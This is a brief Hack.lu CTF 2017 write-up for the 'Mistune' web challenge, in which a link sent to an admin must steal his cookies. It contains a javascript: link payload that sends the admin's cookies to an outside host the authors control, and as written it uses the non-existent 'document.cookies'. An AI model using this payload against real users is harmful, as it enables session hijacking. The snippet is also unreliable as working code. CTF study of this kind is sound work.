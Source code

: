 ```yaml
---
layout: post
title: Hack.lu CTF 2017 - Mistune
categories: ctf_hacklu17
keywords: "web"
comments: true
authors:
    - chq-matteo
---
```


1. We can send a message to the admin.
2. The admin clicks on the links and we have to steal his cookies.

The idea is to use javascript to redirect the admin to a website we control.  
We used one of the many free hosting sites
```js
<javascript:document.location='hello.myserver.com/?cookie='+document.cookies>
````
